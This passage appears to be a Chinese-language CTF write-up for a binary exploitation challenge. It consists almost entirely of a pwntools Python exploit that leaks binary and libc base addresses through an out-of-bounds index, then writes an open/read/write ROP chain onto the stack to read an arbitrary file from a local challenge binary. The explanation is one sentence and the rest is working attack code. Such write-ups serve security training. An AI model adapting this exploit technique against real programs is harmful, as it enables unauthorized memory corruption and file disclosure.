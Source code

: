 
经过调试可以找到某些地址泄漏 Binary 和 libc，然后改 ret 处的代码构造 ROP 就能任意文件读取：

```python
#!/usr/bin/env python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']

p = process('./artifact')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def cmd(c):
    p.recvuntil('Choice?\n')
    p.sendline(str(c))

def show(idx):
    cmd(1)
    p.recvuntil('Idx?\n')
    p.sendline(str(idx))
    p.recvuntil('Here it is:')
    return int(p.recvuntil('\n', drop=True))

def memo(idx, num):
    cmd(2)
    p.recvuntil('Idx?\n')
    p.sendline(str(idx))
    p.recvuntil('Give me your number:\n')
    p.sendline(str(num))

def leave():
    cmd(3)

binary_base = show(202) - 0xbb0
bss_buf = binary_base + 0x202000
info('binary_base = ' + hex(binary_base))
offset = 0x00007ffff7a2d830 - 0x7ffff7a0d000
libc_base = show(203) - offset
info('libc_base = ' + hex(libc_base))
pop_rdi_ret = libc_base + next(libc.search(asm('pop rdi ; ret')))
pop_rsi_ret = libc_base + next(libc.search(asm('pop rsi ; ret')))
pop_rdx_ret = libc_base + next(libc.search(asm('pop rdx ; ret')))
read_addr = libc_base + libc.symbols['read']
write_addr = libc_base + libc.symbols['write']
open_addr = libc_base + libc.symbols['open']

def set_syscall(idx, syscall, rdi, rsi, rdx):
    memo(idx, pop_rdi_ret)
    memo(idx + 1, rdi)
    memo(idx + 2, pop_rsi_ret)
    memo(idx + 3, rsi)
    memo(idx + 4, pop_rdx_ret)
    memo(idx + 5, rdx)
    memo(idx + 6, syscall)

file_name_addr = bss_buf + 0x500
buf_addr = bss_buf + 0x600
set_syscall(203, read_addr, 0, file_name_addr, 0x20) # read file's name
set_syscall(210, open_addr, file_name_addr, 0, 2) # open's syscall number == 2
set_syscall(217, read_addr, 3, buf_addr, 0x1000) # read file's content
set_syscall(224, write_addr, 1, buf_addr, 0x1000) # write to stdout
leave()
p.sendline('exp.py\x00')
```
